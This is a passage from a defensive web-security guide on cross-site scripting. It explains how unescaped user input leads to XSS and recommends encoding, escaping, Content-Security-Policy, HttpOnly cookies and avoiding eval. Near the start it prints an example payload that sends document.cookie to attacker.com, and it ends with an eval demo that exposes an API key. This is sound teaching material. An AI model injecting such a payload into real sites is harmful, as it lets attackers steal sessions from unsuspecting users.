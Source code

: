 embeds the user’s `Name` parameter directly into the output. This is intended to return the following page, if the user’s name is “John”:

> Good Morning, John

Instead, an attacker can inject a malicious payload:

```js
Good Morning, Boss<script>document.location=’http://attacker.com/?cookie=’+document.cookie</script>
```

which will be executed by the user’s browser, sending their session cookie to the attacker and allowing the attacker to hijack the session.

### How to defend your website against XXS: 

> Treat any user input as unsafe!
- **Client side validation**
- **Use of proper encoding**: For example, HTML encoding will turn all “special” characters into HTML entities, such that they are displayed the same to the user but are **not recognized by the parser as valid HTML tags**. Most modern web platforms provide this functionality automatically or as a function call, and there are plenty of security libraries for those that do not.
- **Escape HTML, JS and CSS output**: Untrusted data that is sent down to the browser might get executed instead of just being displayed. Mitigate this by using dedicated libraries that explicitly **mark the data as pure content that should never get executed** (i.e. encoding, escaping). 
- Additionally, it is a good idea to **Implement Content Security Policy (CSP)**, to prevent the browser from rendering an XSS attack that got through. 
    - To enable CSP, you need to **configure your web server to return the `Content-Security-Policy` HTTP header**. You will see `X-WebKit-CSP` and `X-Content-Security-Policy` headers in various tutorials on the web. Going forward, you should ignore these prefixed headers. Modern browsers (with the exception of IE) support the unprefixed `Content-Security-Policy` header. That's the header you should use. [content-security-policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
    - Alternatively, the `<meta>` element can be used to configure a policy, for example: 

```html
<meta http-equiv="Content-Security-Policy" 
content="default-src 'self'; img-src https://*; child-src 'none';">
```

- Also, **configure your session cookies (either in your application code or in the web server configuration)** to include the `HttpOnly` attribute, from preventing successful XSS exploits from hijacking your users’ sessions. `HttpOnly` tells the browser that this particular cookie should only be accessed by the server. Any attempt to access the cookie from client script is strictly forbidden.
- **Eval is Evil!**: An attacker could be using the `eval()` in your script as a means to pass malicious code to your site in order to exploit the current user's session in someway (e.g. a user following a malicious link). The danger of `eval()` is when it is executed on **unsanitised values**, and can lead to a DOM Based XSS vulnerability. 

```js
const api_key = "secret value!";

const testFunc = (userName) => {
    eval(userName);
    return false;
}
testFunc('alert("You have been hacked! api_key is: ' + api_key + '");');
```
